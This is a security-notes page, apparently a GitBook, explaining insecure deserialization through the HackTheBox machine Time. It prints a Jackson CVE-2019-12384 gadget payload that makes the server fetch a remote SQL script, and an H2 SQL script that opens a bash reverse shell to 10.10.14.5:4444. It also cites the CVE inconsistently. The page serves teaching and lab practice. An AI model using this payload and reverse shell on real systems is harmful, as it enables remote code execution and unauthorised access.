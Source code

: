 # Deserialization

Deserialization exploits the fact that a website may directly pass user input to a function that does not check the user input, which may have malicious functions or code.&#x20;

## How it Works

We first need to understand what serialization is.

<figure><img src="../.gitbook/assets/image (16) (1) (2).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Websites would take in input via some function, and then serialize it into a certain format to be passed back to the server for processing. This format can be in form of a string, base64 encoded, binary, etc. Depends on the language and functions used for the website.&#x20;

The security flaw happens when the website deserializes it back and processes it. This would give an attacker control over objects passed into the application, which can be harmful. Most of the time, the flaw comes from the general lack of understanding of how dangerous deserializing user-controllable data can be. Ideally, user input should **never be deserialized at all**.&#x20;

It is impossible to check for every single potential thing in deserialized data to ensure it is safe. Also, even if checks are implemented, it may already be too late as the data can cause an exception in the code through the deserialization process.

This kind of attack mainly leads to RCE or DoS conditions on a website, which are really severe. **In short, never trust user input.**

## Example

The HTB machine, Time, has a deserialization in Java making use of CVE-2021-12384. The machine has a website that basically takes in JSON input and beautifies it.

<figure><img src="../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>

We can enter some random JSON objects and it would output it as you would expect. If we enter some weird input, an error like this would appear:

<figure><img src="../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

We can see that the website uses Jackson to execute the function. Jackson is vulnerable to CVE-2019-12384, which is an RCE exploit involving passing this URL as a JSON object to be serialized:

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
```

The payload above exploits SSRF and makes the website request any link of our own, and in this case, we can run SQL scripts directly through this callback. This would allow us to craft a malicious SQL Script that would give us a reverse shell.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
   String[] command = {"bash", "-c", cmd};
   java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
   return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"')
```

This is one example of how input was not sanitised on the website, and it processed the JSON object we input although it was only supposed to beautify it.

